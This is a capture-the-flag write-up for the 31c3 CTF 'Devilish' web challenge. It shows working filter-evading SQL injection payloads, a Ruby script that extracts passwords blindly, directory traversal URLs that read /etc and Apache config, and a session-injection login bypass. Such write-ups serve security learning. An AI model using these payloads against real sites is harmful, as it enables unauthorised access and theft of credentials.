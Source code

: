 Author: zlowram
Date: 12-29-2014 9:05
Title: 31c3ctf Web Devilish write-up
Template: post
Comments: enabled


In this challenge we were given access to a public website that they tell to be
devilish, and might be hiding a private portal.

We had different menu entries but the two standing out were the login and
members page, which allowed to view the user's profile.

The login is not vulnearble to SQLi so better focus on the profile pages: 

```markup
http://188.40.18.70/PROFILE/55/Dracula
```

By fuzzing the 55 you can get to break the query with a backslash, obtaining
this way a nice and verbose error:

```markup
<!--SELECT * FROM users WHERE id_user='55\' AND Us3rN4m3='Dracula'-->

You have an error in your SQL syntax; check the manual
that corresponds to your MySQL server version for the right syntax to use near
'Dracula'' at line 1
```

With this error, you see that Us3rN4m3 is also injectable, so the SQLi query
must be placed there. Exploiting an error based SQLi should be easy, but in
this case many important keywords and characters are filtered, such as SCHEMA,
TABLE, LIKE, HAVING, whitespaces, single quotes, comments, etc.

By applying some [filter evasion techniques](https://websec.wordpress.com/2010/03/19/exploiting-hard-filtered-sql-injections/) and the [extractvalue()](http://kaoticcreations.blogspot.com.es/p/xpath-injection-using-extractvalue.html)
clause you gan get a working injection that returns the username of a given
id_user:

```markup
http://188.40.18.70/PROFILE/asd\/||extractvalue(null,concat(0x3a,(select%09Us3rN4m3%09from%09users%09where%09id_user=54)))--%09
```

Since the column names are unknown and the information_schema table cannot
be used because of the filter, the only way of getting them is by producing
an error such as "duplicate colum name 'id_user'". This can be achieved by
using a double query and joining the users table with itself, which will
duplicate all the columns of the table. Therefore, the query that will leak the
column names is:

```markup
http://188.40.18.70/PROFILE/asd\/||(SELECT%09*%09FROM%09(SELECT%09*%09FROM%09users%09join%09users%09b%09USING%09(id_user))%09a)--%09
```

This query returns an error that says "Duplicate column name 'Us3rN4m3'", so in
order to get all the column names, the known names must be placed within the
USING clause. By doing this you can get all the column names:

```markup
Us3rN4m3, id_user, Em4iL4dR3Szz, S4cR3dT3xT0Fm3, MyPh0N3NumB3RHAHA, Addr3Zz0F_tHi5_D3wD, CHAR_LOL, P4sWW0rD_0F_M3_WTF
```

To extract the passwords from the colum "P4sWW0rD_0F_M3_WTF", the extractvalue
clause cannot be used because it has a length limitation and the passwords are
too long. The way of getting the passwords is blindly, so we construct the base
injection query:

```markup
http://188.40.18.70/PROFILE/asd\/||locate(0x61,(select%09P4sWW0rD_0F_M3_WTF%09from%09users%09where%09id_user=54),1)=1--%09
```

This will try to locate the character 'a' (0x61) in the string returned by the
select statement, starting at position 1. If the result is equal to 1 then the
'a' character is the first one of the password.

In order to automate the password extraction task a script like the following
can be used:

```ruby
#!/usr/bin/env ruby
# by zlowram (@zlowram_)

require 'net/http'

alphabet = ("a".."z").to_a + ("0".."9").to_a

found_char = true
i=1
print "Password: "

while found_char do
  found_char = false
  alphabet.each{|letter|
    encoded_url = URI.escape("http://188.40.18.70/PROFILE/asd\\/||locate(0x"+letter.ord.to_s(16)+",(select%09P4sWW0rD_0F_M3_WTF%09from%09users%09where%09id_user=55),"+i.to_s+")="+i.to_s+"--%09")
    uri = URI.parse(encoded_url)

    res = Net::HTTP.get_response(uri)

    if (res.body =~ /KiTTyKiTTy/) != nil 
      print letter
      found_char = true
      break
    end 
  }
  i = i+1 
end
```

(Note: Here is the point we could reach within time, the rest of the challenge
was done after the CTF was closed.)

Once logged in with the recently obtained credentials it can be observed a new
menu entry: "ACCESS". This section has two functionalities "browse" and
"upload", from wich the uploader appear to be broken.

The "browse" action has a Directory Traversal vulnerability that allows to list
all the directories system-wide:

```markup
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../../etc/
```

This vulnerability allow to list the source code files of the application to
later access it directly and see their contents:

```markup
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../../var/www/html
```

```markup
http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666/LOGIN_HEAD
```

The source code of the web does not tell anything new yet so better try to find
useful information with the directory traversal, which can be found in the
apache2 sites-enabled directory:

```markup
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../../etc/apache2/sites-enabled
```

It appear that a different vhost is available so the html root dir is 
somewhere in the system. Actually, it is in the home directory:

```markup
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../../home/devilish.local
```

To access to this vhost the easiest thing is to add an entry to the /etc/hosts
file in your machine. This allows to access to the private part of portal,
which also contains a login form.

By extrapolating the source code filenames it is possible to read the LOGIN_HEAD
file, which contains the source code of the login:

```php
<?php
    if(@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
            $_SESSION['is_ExclusiveMember']=1;
            header("location: ".$LINK);
            die();
        }else{
            $Error=1;
        }
    }
?>;
```

In order to log in, the session variable named 'is_ExclusiveMember' must be set
to 1. This can be done by sending it via POST in the public login form, as seen
in the LOGIN_HEAD code of the public site ($_SESSION=$_POST):

```php
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?>
```

Once logged in with the 'is_ExclusiveMember' value set to 1, the flag can be
obtained by simply accessing the devilish.local vhost.

```markup
31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5
```

Greetings to my team, [Insanity](http://ka0labs.net), and specially to Xassiz and Kenkeiras for their
help in this one!

### Useful resources
 * [SQL Injection knowledge base](http://websec.ca/kb/sql_injection)
